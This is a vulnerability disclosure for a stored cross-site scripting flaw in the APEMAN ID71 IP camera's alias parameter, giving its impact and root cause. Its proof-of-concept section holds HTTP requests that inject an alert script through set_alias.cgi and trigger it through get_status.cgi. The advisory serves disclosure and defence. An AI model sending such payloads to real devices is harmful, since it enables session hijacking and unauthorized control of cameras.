

## APEMAN ID71 IP Camera — Stored Cross‑Site Scripting (XSS) in alias parameter

- **Vendor/Product**: APEMAN ID71 IP Camera (embedded web interface using GoAhead)
- **Component**: Web management UI (`set_alias.cgi`, `get_status.cgi`)
- **Vulnerability Class**: Cross-Site Scripting (Stored)
- **CWE**: CWE-79 Improper Neutralization of Input During Web Page Generation (XSS)
- **Attack Vector**: Network (HTTP)
- **Authentication**: Required to store payload (low-privileged user sufficient); execution occurs when authenticated users view affected pages
- **Affected Versions**: Observed on device reporting `app_version="EN75.8.53.20"` (exact range unknown; others likely affected)

### Summary
The camera’s web interface does not properly encode the user-supplied `alias` value before embedding it into JavaScript. When `alias` is set via `set_alias.cgi`, it is stored and later emitted by `get_status.cgi` as a JavaScript string without context-appropriate encoding. An authenticated attacker can inject arbitrary JavaScript that will execute in the browser of any user viewing pages that consume this variable, enabling session hijacking and unauthorized actions within the victim’s session.

### Screenshots

_Figure 1: Setting the device alias to a JavaScript payload via the settings page._


_Figure 2: Execution of the injected script in the authenticated user’s browser._


_Figure 3: Status interface consuming `alias` from `get_status.cgi`, leading to script execution._

Example server response excerpt showing the vulnerable emission:
```javascript
var alias="<script>alert(1)</script>";
var deviceid="VSTD174434AQBAR";
var sys_ver="218.53.203.117";
var app_version="EN75.8.53.20";
// ...
```

### Proof of Concept (PoC)
Store the payload as the alias (requires any valid authenticated session):
```http
GET /set_alias.cgi?alias=%3Cscript%3Ealert(1)%3C%2Fscript%3E&next_url=alias.htm&loginuse=admin&loginpas=xxxxxxxx HTTP/1.1
Host: <camera-ip>:<port>
Authorization: Digest <valid-credentials>
```

Trigger execution by visiting a page that reads device status (e.g., `get_status.cgi` or admin dashboard):
```http
GET /get_status.cgi HTTP/1.1
Host: <camera-ip>:<port>
Authorization: Digest <valid-credentials>

Response:
....

var alias="<script>alert(1)</script>";
var deviceid="VSTD174434AQBAR";
var sys_ver="218.53.203.117";
var app_version="EN75.8.53.20";
```

### Public Exploit 
- https://github.com/juliourena/APEMAN-Camera-PoCs/blob/main/XSS/apeman_id71_xss_poc.py

### Impact
- **Confidentiality**: High — theft of session tokens, credentials, and configuration data
- **Integrity**: High — arbitrary actions in the victim’s authenticated context (change settings, add users)
- **Availability**: None direct

### Root Cause
- Missing context-aware output encoding for user-controlled data embedded into JavaScript
- Insufficient input validation for `alias`

### Credits
- Research and report: Julio Ureña
